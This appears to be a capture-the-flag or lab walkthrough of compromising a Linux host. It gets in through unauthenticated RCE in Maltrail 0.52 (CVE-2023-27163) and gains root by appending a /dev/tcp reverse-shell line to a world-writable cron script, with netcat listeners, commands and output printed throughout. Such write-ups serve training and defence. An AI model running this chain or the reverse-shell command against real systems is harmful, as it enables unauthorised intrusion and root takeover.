

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | 22/tcp (SSH), 80/tcp (Apache), 8338/tcp (Maltrail 0.52) |
| Primary Entry Vector      | Maltrail 0.52 unauthenticated RCE (CVE-2023-27163) |
| Privilege Escalation Path | Writable root cron script at `/var/backups/etc_Backup.sh` |

## Reconnaissance

### 1. PortScan

We begin with a fast full-range TCP scan to identify all open ports before deep enumeration. RustScan is useful here because it quickly identifies reachable ports and reduces overall recon time. At this stage, we are specifically looking for exposed management services and unusual web ports that may host custom applications.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
✅[20:44][CPU:7][MEM:79][TUN0:192.168.45.166][/home/n0z0]
🐉 > rustscan -a $ip -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Where scanning meets swagging. 😎

[~] The config file is expected to be at "/home/n0z0/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.178.32:22
Open 192.168.178.32:80

```

After identifying open ports, we run a full-service Nmap scan to fingerprint versions and HTTP technologies. The command includes aggressive service detection (`-sCV -sV -A`) and disables host discovery (`-Pn`) to avoid missing targets behind filtering. The goal is to detect vulnerable software versions and route exploitation decisions using verified banner data.

```bash
timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/<scan_output>.xml"
grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"
echo -e "\e[32mScan result saved to: $output_file\e[0m"
```

```bash
✅[20:43][CPU:7][MEM:78][TUN0:192.168.45.166][/home/n0z0]
🐉 > timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/<scan_output>.xml"

grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"

echo -e "\e[32mScan result saved to: $output_file\e[0m"
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-28 20:43 +0900
Nmap scan report for 192.168.178.32
Host is up (0.085s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
8338/tcp open  http    Python http.server 3.5 - 3.10
|_http-title: Maltrail
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Maltrail/0.52
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (95%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6.0
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (95%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 3.4 - 3.10 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%), Linux 4.15 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   84.49 ms 192.168.45.1
2   84.47 ms 192.168.45.254
3   84.50 ms 192.168.251.1
4   84.56 ms 192.168.178.32

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.38 seconds
Scan result saved to: /home/n0z0/work/scans/<scan_output>.xml

```

The key discovery here is `Maltrail/0.52` on port `8338`. This version is associated with CVE-2023-27163, an unauthenticated command injection issue in the web interface that allows remote code execution by manipulating request parameters. That finding defines the fastest and most reliable initial access path.


*Caption: Maltrail interface confirming version 0.52 before exploitation.*

💡 Why this works  
Version-based vulnerability validation is effective when service banners and exploit target versions align cleanly. By confirming the exact application and exposed endpoint first, we avoid noisy brute-force attempts and move directly into a deterministic exploit path.

## Initial Foothold

### Exploiting Maltrail 0.52 (CVE-2023-27163)

With Maltrail identified, we test known public exploit code for the vulnerable branch. This step attempts to force command execution on the target and trigger a callback to the attacker host. We focus on whether the target reaches our listener, which is the most direct indicator that code execution succeeded.

```bash
python3 exploit.py 192.168.45.166 80 http://192.168.178.32:8338
```

```bash
❌[21:21][CPU:1][MEM:70][TUN0:192.168.45.166][...Ochima/Maltrail-v0.53-RCE]
🐉 > python3 exploit.py 192.168.45.166 80 http://192.168.178.32:8338


```

To receive the payload callback, we run a Netcat listener on the expected port. At this point we are looking for an inbound connection from the target and an interactive prompt. A successful callback confirms initial shell access under the service account context.

```bash
nc -lvnp 80
```

```bash
❌[21:20][CPU:3][MEM:70][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.32] 34246
$

```

After landing the shell, we immediately validate user-level proof access. The objective is to confirm filesystem reach and collect `local.txt` as evidence of foothold completion. We suppress permission-denied noise during path discovery for faster triage.

```bash
find / -iname local.txt 2>/dev/null
cat /home/snort/local.txt
```

```bash
snort@ochima:/opt/maltrail-0.53$ find / -iname local.txt 2>/dev/null
/home/snort/local.txt
snort@ochima:/opt/maltrail-0.53$ cat /home/snort/local.txt
e3c3b4d04707e71073979ac1051c2375

```

💡 Why this works  
CVE-2023-27163 enables command execution without prior authentication when the vulnerable Maltrail endpoint is reachable. Once arbitrary command execution is established, a reverse shell provides a stable interactive channel to continue local enumeration and escalation.

## Privilege Escalation

### Abusing Writable Root Cron Script

The next step is to identify privileged scheduled tasks that can be influenced from the low-privilege shell. Process-monitoring output shows a root-owned cron execution chain invoking `/var/backups/etc_Backup.sh`. We are specifically looking for script paths that are writable by the compromised user.

```bash
2026/03/01 00:31:01 CMD: UID=0     PID=13017  | tar -cf /home/snort/etc_backup.tar /etc
2026/03/01 00:32:01 CMD: UID=0     PID=13020  | /bin/bash /var/backups/etc_Backup.sh
2026/03/01 00:32:01 CMD: UID=0     PID=13019  | /bin/sh -c /var/backups/etc_Backup.sh
2026/03/01 00:32:01 CMD: UID=0     PID=13018  | /usr/sbin/CRON -f -P

```

Once the job is identified, we inspect the script to understand what root is executing. This confirms whether the file is a practical injection target and whether our payload can persist long enough to trigger. The script currently performs a backup operation with `tar`.

```bash
cat /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ cat /var/backups/etc_Backup.sh
#! /bin/bash
tar -cf /home/snort/etc_backup.tar /etc
```

Before modifying anything, we verify file permissions to confirm write access from the compromised account. The attack only works if we can alter content that root executes on schedule. Here, world-writable permissions make the escalation path straightforward.

```bash
ls -la /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ ls -la /var/backups/etc_Backup.sh
-rwxrwxrwx 1 root r
```

After confirming write access, we append a reverse shell payload to the cron-executed script. This causes root to execute our command on the next cron run. We immediately review the file to ensure the payload was appended correctly.

```bash
echo '/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1'>>/var/backups/etc_Backup.sh
cat /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ echo '/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1'>>/var/backups/etc_Backup.sh
snort@ochima:/tmp$ cat /var/backups/etc_Backup.sh
#! /bin/bash
tar -cf /home/snort/etc_backup.tar /etc
/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1

```

We then listen again for the callback, this time expecting a root-level shell because cron executes the script as UID 0. The key indicator is the shell prompt identity and command privileges. A root prompt confirms successful privilege escalation.

```bash
nc -lvnp 80
```

```bash
❌[9:41][CPU:4][MEM:70][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.32] 44098
bash: cannot set terminal process group (13114): Inappropriate ioctl for device
bash: no job control in this shell
root@ochima:~#
```

Finally, we validate full compromise by reading `proof.txt` from root's home directory. This confirms both filesystem and privilege objectives are complete. The command is simple but serves as final exploitation evidence.

```bash
cat /root/proof.txt
```

```bash
root@ochima:~# cat /root/proof.txt
cat /root/proof.txt
39da7501d16cfd741104861ccb4f7eb4
```

💡 Why this works  
This escalation path is a classic scheduled-task trust boundary failure: root executes a script that unprivileged users can modify. Because cron preserves root execution context, injected commands inherit UID 0 and spawn a privileged shell without requiring local kernel exploits.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

- Confirming exact service versions during recon can reveal direct unauthenticated RCE paths with minimal brute-force effort.
- Internet-facing admin/monitoring services should be patched quickly; vulnerable versions can collapse the entire attack chain.
- Root cron jobs must never execute scripts writable by non-root users.
- Scheduled scripts should be permission-hardened (`root:root`, mode `700` or stricter) and monitored for unauthorized changes.



## References

- RustScan
- Nmap
- Maltrail
- CVE-2023-27163
- Netcat
- pspy64
- cron
